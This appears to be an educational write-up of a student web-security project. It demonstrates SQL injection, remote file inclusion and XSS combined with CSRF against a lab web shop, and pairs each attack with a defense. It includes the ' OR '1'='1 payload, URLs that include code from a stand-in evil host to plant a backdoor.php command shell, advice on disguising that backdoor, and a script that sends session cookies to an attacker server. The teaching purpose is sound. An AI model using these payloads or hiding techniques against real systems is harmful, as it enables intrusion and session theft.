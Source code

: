 ## SQL injection

### Description:

Web servers are often stateless, meaning that requests do not affect each other. In order to for example store users' info, a database is needed. A common type of database query language is SQL. The most well known fork of SQL is MySQL. The database is simply a table where each row contains info which are grouped. In order to add/delete/modify the data in a table, SQL statements are used which describes what should be done to the database. These statements are, if not properly designed, vulnerable to an SQL injection. A SQL injection is when you manage to alter or get access to a web server's database by escaping from the SQL statement. 

### Our attack:

A common way to attack is when the SQL statement is using string concatenation, in php this would look like: `$query = "SELECT * FROM users WHERE username='$username' AND password='$password'";`. If the login depends on if for example the number of rows is larger than zero, which is not uncommon, this query would be susceptible to an attack vector by passing `' OR '1'='1` as the $password variable. This is because this means that everything in the table would match and therefore the number of rows is larger than zero. 

### Defense: 

In order to secure against the above attack, we have implemented multiple security measures. With the most important being prepared SQL statements. This works by writing the statement as you would usually, but instead of using string concatenation you replace those variables with question marks. The next step is to call the bind_param() method which replaces the question marks with what you actually want. But this replace function does not replace the question marks as is, but instead as values. This means that any SQL statement which is malicious will only be treated as values. Therefore you would be secure against `' OR '1'='1` for example, because this is simply treated as one string and not a statement. 

## Remote file inclusion

### Description:

Remote file inclusion (RFI) is a critical web vulnerability that allows external files hosted on remote servers to be dynamically included and executed on the target web-app. This is possible if the user input isn’t properly sanitized and validated and can lead to e.g. code execution, sensitive information disclosure and denial of service. In PHP RFI’s can happen if paths aren’t properly passed to the `include()` function, i.e. properly sanitized. 

If, for different reasons, you want to dynamically include files based on user input you could implement something like this:  
```
$file = $_GET[‘file’];  
include($file);
```

By then passing an input like:  
http://vulnerable/login.php?file=http://attacker/evil.php
the code at attacker/evil.php would be included in the php script and executed.

### Our attack:
When on the login page of the web shop and a URL such as this one is given: http://localhost:8000/login.php?file=http://evil/evil_rfi a flawed implementation in the 'login.php' script will include the remote server’s `evil_rfi.php` script and execute its contents. This is possible because the `login.php` has  `$file = $_GET[‘file’];` and `include($file);` without proper handling. In our case the `evil_rfi.php` script will create a visible `backdoor.php` file on the vulnerable server which can then be accessed and used by a prompt like this: `http://localhost:8000/backdoor.php?cmd=ls`. This will in turn print out every file in vulnerable servers current directly. `cmd=ls` can of course be changed to other shell commands. In our implementation the `backdoor.php` is instantly placed in the public directory and is easily seen, but one could e.g. name the file less suspiciously like `config.php` or hide the file in deeply nested subdirectories or obfuscate the backdoor code with base64 encoding and so on. This in turn, together with a well hidden RFI, would make the backdoor very difficult to spot.    

### Defense:
To eliminate remote file inclusion we have chosen to simply never allow user-submitted input to be dynamically included and the needed paths have been hard-coded. There are however other measures that can be taken to mitigate this attack. By making sure that `allow_url_include` and `allow_url_fopen` are both set to Off (which they are by default) in the php.ini configuration, `include()` and `require()` won’t work for remote URLs. Other defenses could be to e.g. either sanitize the input or compare the inputted file path against a whitelist of approved paths and from there take relevant actions. 

## XSS + CSRF Attack

### Description:

Guarding against XSS attacks is even harder when it looks like a legit change from the user. This attack requires a legitimate change to inject malicious code that is then exposing user data or stealing their session.

### Attack

In our website the user's address is shown on his /profile.php page. This input is not properly sanitized and is directly inserted into html, but this does mostly not matter since you can only see this if you are currently logged in in an active session and it does not give you access to other users’ information. There is a form that allows the user to change the address.  
With CSRF this page is susceptible to a XSS attack. If a malicious party provides a page that submits a form that changes the address, they can insert whatever code they want, executing it when the user visits the site again (which happens instantly since changing the address reloads the current page.

### Implementation

The evil party has a site at localhost:9000 and has a page /evil_address_change which creates a request to eitf:8000 (the legit site) to perform an address change via a POST form. The address is changed to a script that performs a GET request to `"http://localhost:9000/?cookies="+ document.cookies` which attaches the current session cookie to the request.  
As a result if any logged in user clicks the evil-parties link, they will:

1. Open a page on the evil server  
2. Have a post request automatically sent to the legit sites address-change page  
   1. And be redirected to it as a result  
3. The malicious script is injected into the address field in the database  
4. After submitting the new address, the page reloads showing the new address, executing the malicious script  
5. The XSS script sends a silent GET request to the evil server which can now easily highjack the session. (For this, evil provides CORS Access-control-allowed-origin: * in order to avoid a CORS block)

## Defense:

1. Sanitize the Address input, escape any html characters  
2. Attach a random ID to the form when the html site is generated by the server, check that ID when the post is submitted. Can be attached to the current session server side.  
   1. Guessing that token (CSRF-like token) is not feasible on the evils’ side

